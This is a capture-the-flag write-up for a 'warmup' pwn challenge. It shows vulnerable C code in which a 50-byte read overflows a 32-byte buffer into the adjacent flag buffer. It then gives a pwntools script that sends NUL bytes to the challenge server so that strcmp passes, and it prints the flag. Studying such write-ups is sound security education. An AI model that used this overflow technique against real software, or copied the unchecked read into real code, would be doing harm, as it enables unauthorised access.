

# warmup
category: pwn | 316 points | 17 solves | author: main

## Description
Just a warmup. `nc challs.sieberrsec.tech 3476`

```c
#include <stdio.h>
int main() {
    char input[32];
    char flag[32];
    // read flag file
    FILE *f = fopen("flag", "r");
    fgets(flag, 32, f);
    fclose(f);
    // read the user's guess
    fgets(input, 0x32, stdin);
    // if user's guess matches the flag
    if (!strcmp(flag,input)) {
        puts("Predicted!");
        system("cat flag");
    } else puts("Your flag was wrong :(");
}
```

N.B. please do not try to bruteforce the flag. Attempts at doing so will be taken as an attack on server infrastructure, and will leave you liable for disqualification.

## Solution
This is a chall I didn't originally manage to get. 

```c 
    char input[32];
    char flag[32];
```
the input is declared as 32 bytes, and the flag is declared immediately after. 

the second (free) hint is a link to <https://en.wikipedia.org/wiki/Null-terminated_string>.

> A common bug was to not allocate the additional space for the NUL, so it was written over adjacent memory

The length of the `input` buffer is 32 bytes, but the program reads `0x32` or 50 bytes. So you can overwrite the flag after sending 32 bytes. 

the program also uses `strcmp()`. 
> strcmp() checks for the occurrence of NULL character in string, so that it will termination the function. ([source](https://www.quora.com/Does-STRCMP-check-for-NULL))

The idea is 
```
| input (32 bytes) | flag (32 bytes) |

sending NULL + 31 bytes + NULL

| input (NULL + 31 bytes) | flag (NULL + 31) | 

strcmp() will only read until NULL, and not the rest.
```

a code like this would work 
```python
from pwn import *

context.log_level="debug"

p = remote("challs.sieberrsec.tech", 3476)

#a null byte is b"\x00"
p.sendline(b"\x00"*33)

p.interactive()
```
as long as you send between 33-48 NULL bytes. any shorter will not overwrite the flag and any further would overwrite too much. 



IRS{nU1L_t3rminat0r}

## comments
- Values are on the stack according to where they're declared
- However, sometimes compilers add some "buffer" in between values
- Thus, decompilers etc help
- 
^^thanks sean <br>
warmup chall with 17 solves very haha <br>
thanks sean i understand now 
